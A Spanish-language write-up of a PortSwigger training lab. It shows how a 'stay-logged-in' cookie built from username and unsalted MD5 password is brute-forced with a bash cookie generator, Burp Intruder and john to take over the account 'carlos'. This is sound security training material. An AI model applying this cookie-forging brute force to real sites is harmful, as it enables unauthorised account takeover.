 ```yaml
---
title: "Brute-forcing a stay-logged-in cookie"
description: "Laboratorio de Portswigger sobre Authentication"
date: 2025-01-29 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Authentication
tags:
  - Portswigger Labs
  - Authentication
  - Brute-forcing a stay-logged-in cookie
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Para `resolver` el `laboratorio`, debemos `realizar` un `ataque` de `fuerza bruta` sobre la `cookie` de Carlos para `acceder` a `Mi account`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `bruteforcear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-9/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-9/image_2.png)

En el caso de que introdujésemos `dos veces` la `contraseña incorrecta` nos `bloquearía` y deberíamos `esperar 1 minuto` para volver a intentar `introducir` las `credenciales`

![](/assets/img/Authentication-Lab-9/image_3.png)

`Rellenamos` el campo `Email`, `pulsamos` en `Update email` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_4.png)

Si nos fijamos bien el campo `stay-logged-in` de la `cookie` está `compuesto` por el `nombre` de `usuario` y la `contraseña`

![](/assets/img/Authentication-Lab-9/image_5.png)

`Identificamos` el `tipo` de `hash` con el que se `cifra` la `contraseña`, para ello podemos usar `webs` como [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

![](/assets/img/Authentication-Lab-9/image_6.png)

Otra opción sería usar `herramientas` como `hash-identifier`

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 51dc30ddc473d43a6011e9ebba6ca770

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
```

Para `confirmar` que es `MD5` usamos este comando y vemos que `ambos hashes coinciden`

```
# echo -n 'peter' | md5sum | awk '{print $1}'
51dc30ddc473d43a6011e9ebba6ca770
```

Vemos que podemos `eliminar` el `parámetro session` y el servidor nos `asigna` una `cookie` de acuerdo al parámetro `stay-logged-in`

![](/assets/img/Authentication-Lab-9/image_7.png)

Si intentamos acceder a `/my-account?id=carlos` con el y el `stay-logged-in` tiene las `credenciales incorrectas` nos hará un `redirect` a `/login`. Sin embargo, si lo hacemos con las `credenciales correctas` nos `devolverá` un `200 OK` y no habrá ningún redirect, podemos usar esto para `bruteforcear` la `contraseña` del usuario `carlos` y `acceder` a su `cuenta`

![](/assets/img/Authentication-Lab-9/image_8.png)

Para `crear` este `valor` de la `cookie` vamos a usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y este `script` en `bash`

```
#!/bin/bash

while IFS= read -r line
do
  username="carlos"
  md5_hashed_password=$(echo -n "$line" | md5sum | awk '{print $1}')
  base64_hashed_password="$username:$md5_hashed_password"
  echo -n "$base64_hashed_password" | base64 >> hashed_passwords.txt
done < "passwords.txt"
```

`Mandamos` la `petición` al `Intruder` y ahí `marcamos` el `campo` de la `cookie` a `bruteforcear`

![](/assets/img/Authentication-Lab-9/image_9.png)

`Cargamos` el `diccionario` creado

![](/assets/img/Authentication-Lab-9/image_10.png)

Otra forma de `bruteforcear` sería usando las `contraseñas` de `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y luego `procesar` el `payload` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_11.png)

Si la `contraseña` es la `correcta` nos `devuelve` el `código de estado 200`, así que `filtramos` por `código` de `estado` y `obtenemos` el `hash`

![](/assets/img/Authentication-Lab-9/image_12.png)

`Obtenemos` la `contraseña` del usuario `carlos`

```
# echo 'Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl' | base64 -d
carlos:91cb315a6405bfcc30e2c4571ccfb8ce 
```

El `payload` usado para la `petición` es el `número 83`, por lo tanto podemos usar awk` `para `obtener` esa `línea` del `diccionario` de contraseñas

```
# awk 'NR==83' passwords.txt 
chelsea
```

Otra forma sería `creando` un `archivo` con el hash `91cb315a6405bfcc30e2c4571ccfb8ce` en su interior y `bruteforcearlo` con `john`

```
# john --format=raw-MD5 -w passwords.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
chelsea          (?)     
1g 0:00:00:00 DONE (2025-01-29 11:40) 100.0g/s 38400p/s 38400c/s 38400C/s 123456..larry
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

`Iniciamos sesión` en la `cuenta` de `carlos`

![](/assets/img/Authentication-Lab-9/image_13.png)

![](/assets/img/Authentication-Lab-9/image_14.png)
